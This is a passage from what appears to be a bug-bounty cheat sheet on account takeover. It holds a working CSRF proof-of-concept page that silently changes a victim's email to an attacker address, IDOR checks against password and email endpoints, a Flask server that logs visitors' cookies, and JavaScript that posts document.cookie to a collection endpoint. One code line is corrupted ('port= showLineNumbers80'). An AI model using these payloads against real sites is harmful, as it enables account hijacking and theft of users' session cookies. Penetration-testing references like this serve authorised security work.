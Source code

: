 ```html showLineNumbers
<html>
  <head>
    <title>CSRF PoC</title>
  </head>
  <body>
      <form name='attack' action='https://example.com/update-email' method='POST'>
           <input type="hidden" name="new_email" value="attacker@evil.com">
           <input type="submit" name="submit" value="submit" hidden>
      </form>
      <script>
           document.attack.submit.click()
      </script>
  </body>
  </html>
```
* **IDOR to Account Takerover**
  - checck if the email update endpoint is vulnerable to IDOR
  - check if the password change endpoint is vulnerable to IDOR
  - check if the password reset endpoint vulnerable to IDOR
* **subdomain takeover:**
  - first-order: check if you can takeover xyz.example.com, you can host any malicious code to steal users info or cookies
  - PoC Example

```python showLineNumbers
#python
#!/usr/bin/python3
from flask import *
app = Flask(__name__)
@app.route('/')
def cookie_sniffer():
    for c_name, c_value in request.cookies.items():
        print(c_name + ': ' + c_value)
    return 'Hello, world'
if __name__ == '__main__':
    app.run(port= showLineNumbers80)
```

  - second-order (broken link hijacking): if you found a broken link in a webpage (https://nonexistentlink.com/app.js) and you can takeover this domain, you can host any malicious javascript file and use it to steal users info or cookies
  - PoC Example

```js showLineNumbers
//javascript
  user_cookies = {
    "cookies": document.cookie
}
var xhttp = new XMLHttpRequest();
xhttp.open("POST", "/store-cookies", true);
xhttp.send(JSON.stringify(user_cookies));
```
